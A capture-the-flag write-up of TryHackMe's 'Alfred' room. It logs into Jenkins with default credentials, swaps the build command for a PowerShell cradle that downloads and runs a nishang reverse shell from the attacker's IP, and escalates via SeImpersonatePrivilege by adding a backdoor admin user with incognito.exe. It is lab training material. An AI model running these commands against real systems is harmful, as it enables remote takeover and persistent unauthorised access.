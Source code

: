 ```yaml
---
layout: default
title: "Alfred"
description: "Exploit misconfigured Jenkins and escalate privileges with the impersonation of Windows token"
---
```


[Alfred](https://tryhackme.com/room/alfred) is the second machine in the "Advanced Exploitation" part of  TryHackMe's "Offensive pentesting" path.

---

## Enumeration

The output of the nmap scan:
```
nmap -sC -sV 10.10.0.34
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-14 05:25 EDT
Nmap scan report for 10.10.0.34
Host is up (0.053s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 7.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Site doesn't have a title (text/html).
3389/tcp open  ssl/ms-wbt-server?
8080/tcp open  http               Jetty 9.4.z-SNAPSHOT
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 92.30 seconds
```

Port `8080` contains `Jenkins` login page.
According to `Jenkins` documentation, default credentials should be the `admin:password` pair, but this is not the case.
The first option to check is other "default" password pairs. `admin:admin` will do the trick this time.

---

## Exploitation
A few words about `Jenkins` before we move on:
> Jenkins – an open source automation server which enables developers around the world to reliably build, test, and deploy their software.

From the attacker's perspective, this is a goldmine. First, you can execute system command with it. Second, already created projects and builds might contain a ton of priceless data.

We can see that `Jenkins` is already has a build for the project named, well, `project`.

Navigate to the configurations of the project:
```
http://10.10.0.34:8080/job/project/configure
```

We are looking for the `Build` section of it. You can see that to make a new build, `Jenkins` execute a `Windows bash command` and running `whoami` command.
Let's replace the `whoami` command and download a reverse shell to our `Kali Linux` machine.

A common way to do that with the Windows box is to use something like [nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) `PowerShell` reverse shell.

Simply add the line to the end of the file:
```
Invoke-PowerShellTcp -Reverse -IPAddress 10.11.19.53 -Port 1337
```

Serve the HTTP server to host that file by executing the following command:
```
sudo python -m SimpleHTTPServer 80
```

Prepare a listener on the port `1337` with `nc`:
```
sudo nc -nlvp 1337
```
We are done with preparations on the `Kali Linux` side, let's modify the `Build` command in `Jenkins` now.
Replace the `whoami` with the following:
```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.11.19.53/Invoke-PowerShellTcp.ps1')
```
Hit the `Build Now` and take a break for a second.
`Jenkins` will make a new build and by doing that, it will also download and execute your reverse shell as a user `bruce`.

---

## PrivEsc

Let's check what privileges the user `bruce` has:

```
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State   
=============================== ========================================= ========
SeDebugPrivilege                Debug programs                            Enabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege         Create global objects                     Enabled
```

The official guide is covering only the way how to do it with `Metasploit`, but of course, you can do the same without it.

The role `SeImpersonatePrivilege` allows you to impersonate a client. We can exploit that to gain privileged access to the local system.
The official guide is also offering you to use the `incognito` module for `Metasploit`, but you can [download](https://github.com/milkdevil/incognito2) it as a stand-alone binary.
Transfer `incognito.exe` to the machine in any preferred way.
If you don't have one, you can use this `PowerShell` one-liner:
```
(New-Object System.Net.WebClient).DownloadFile("https://<YOUR_IP>/<FILE_NAME>", "C:\<PATH_TO_THE_FILE><FILE_NAME>")  
```

When you will have your file on the box, you can impersonate `NT AUTHORITY\SYSTEM` token as the official guide recommend you, but you could also create a new user with admin rights:

```
PS C:\users\public\Documents> ./incognito.exe add_user carrotcake SuperSecretPassw0rd123                             
[-] WARNING: Not running as SYSTEM. Not all tokens will be available.                                                
[*] Enumerating tokens                                                                                               
[*] Attempting to add user carrotcake to host 127.0.0.1                                                              
[+] Successfully added user                 


PS C:\users\public\Documents> ./incognito.exe add_localgroup_user Administrators carrotcake                          
[-] WARNING: Not running as SYSTEM. Not all tokens will be available.                                                
[*] Enumerating tokens                                                                                               
[*] Attempting to add user carrotcake to local group Administrators on host 127.0.0.1                                
[+] Successfully added user to local group  
```
Here we are creating a new user `carrotcake` with the password `SuperSecretPassw0rd123` via `incognito.exe`, and then adding this account to the local group `Administrators`.

You can now try to login to the box with a new account. We can use `RDP` protocol as the port `3389` is open:
```
rdesktop -u carrotcake -p SuperSecretPassw0rd123 10.10.0.34
```
OR you can use the tool `Remmina` instead of `rdesktop`. It has a built-in screenshot taker and works way more stable in my taste.
[How to install Remmina](https://remmina.org/how-to-install-remmina/)

---

## Takeaway
- You don't have to always look for a way to exploit the service. Sometimes you just need to use it
- Understanding of the environment can help you to achieve your goals
- Creating a new user sometimes might be the easiest way to get persistent access to the system
